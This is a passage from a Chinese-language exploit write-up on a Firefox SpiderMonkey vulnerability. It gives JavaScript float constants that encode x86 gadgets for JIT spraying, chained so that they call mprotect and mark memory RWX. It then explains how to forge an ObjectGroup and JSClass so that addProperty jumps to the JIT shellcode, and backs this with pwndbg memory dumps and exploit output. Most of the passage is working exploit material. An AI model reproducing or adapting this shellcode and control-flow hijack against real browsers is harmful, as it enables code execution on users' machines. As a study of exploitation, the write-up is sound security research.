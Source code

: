 但是没有关系，因为可以利用`const` 一次往`jit` 写入`8`个byte，`const` 之间内存地址是连续的，可以写入多个gadget，构造`gadget1 =&gt; jmp gadget2 =&gt; jmp gadget3` 这样

最终写入的shellcode 如下

```
func = function func() `{`
    // 0x1337133713371337
  const magic = 4.183559446463817e-216;

  //0x67490c038098b48 mov    rcx,QWORD PTR [rcx] ;cmp    al,al; nop
  const g1 = 1.4501798452584495e-277
  //0x6749000100068 push   0x1000; nop
  const g2 = 1.4499730218924257e-277
  //0x674c038ff31485e pop    rsi ;xor    rdi,rdi;cmp    al,al
  const g3 = 1.4632559875735264e-277
  //0x6745f00fff68 push   0xfff;pop    rdi;
  const g4 = 1.4364759325952765e-277
  //0x674909090d7f748     not    rdi;nop;nop;nop
  const g5 = 1.450128571490163e-277
  //0x67490c038cf2148  and    rdi,rcx;cmp    al,al;nop
  const g6 = 1.4501798485024445e-277
  //0x674580a6a5a076a push   0x7;pop rdx;push 0xa; pop rax;
  const g7 = 1.4345589835166586e-277
  //0x0c3050f51  push   rcx; syscall; ret
  const g8 = 1.616527814e-314
`}`
```

每个`const` 最后两个byte 都写入`0x74 0x06`, 对应`je  pc+8` ，shellcode 达到的效果相当于是调用

```
mprotect(rcx,0x1000,0x7);
jmp rcx
```

即把`rcx` 对应的内存变成`rwx` 权限

### 伪造 `JSClasss`

接着我们看看如何劫持控制流, 在执行`a.a=xxx` 添加`properties` 时，如果`addProperty` 字段不为`null`, 则会调用执行`addProperty` 对应的函数，假如我们修改了`addProperty` 到`jit` 的地址，就可以执行我们的shellcode, 还有一点就是执行`a.x = new Object()` 的时候`rcx` 上会保存`new Object` 的地址，也就是说结合`jit`中的 `mprotect` ，我们可以做到把任意地址改为`rwx` 权限

[![](https://vigneshsrao.github.io/assets/img/cve_writeup/group_diagram.png)](https://vigneshsrao.github.io/assets/img/cve_writeup/group_diagram.png)

但是实际上，`classp_` 是const 类型，保存在`r--` 段上，是不可写的， 但是没有关系，`spidermonkey`并没有很严格的堆隔离机制，我们可以伪造整个`ObjectGroup`, 然后把 `addProperty` 字段改成`jit` 的地址即可

```
pwndbg&gt; x/20gx 0x112c38f204c0
                // group
0x112c38f204c0: 0x0000160cb7b59a30      0x0000112c38f22380
0x112c38f204d0: 0x00007fffcfcfb600      0x00007fffeb5170c0
0x112c38f204e0: 0x000008961c790280      0xfff8800000000060
pwndbg&gt; vmmap 0x0000160cb7b59a30
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x160cb7b00000     0x160cb7c00000 rw-p   100000 0 
//...
pwndbg&gt; x/10gx 0x0000160cb7b59a30
                //classp_
0x160cb7b59a30: 0x00007fffed1f2240      0x00003b6e9bcba240
0x160cb7b59a40: 0x00007fffd3de6800      0x0000000040000018
pwndbg&gt; vmmap 0x00007fffed1f2240
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x7fffece8c000     0x7fffed235000 r--p   3a9000 6f7e000 /home/prb/firefox/libxul.so
//...
```

[+]: 0 96
[+]: 1 96
[+]: 2 96
[+]: 3 96
[+]: 4 96
[+]: 5 96
[+]: 6 256
[+]: 7 96
[+]: 8 96
[+]: 9 96
[+]: 10 96
[+]: 11 96
[+]: 12 96
[+]: 13 96
[+]: 14 96
[+]: 15 96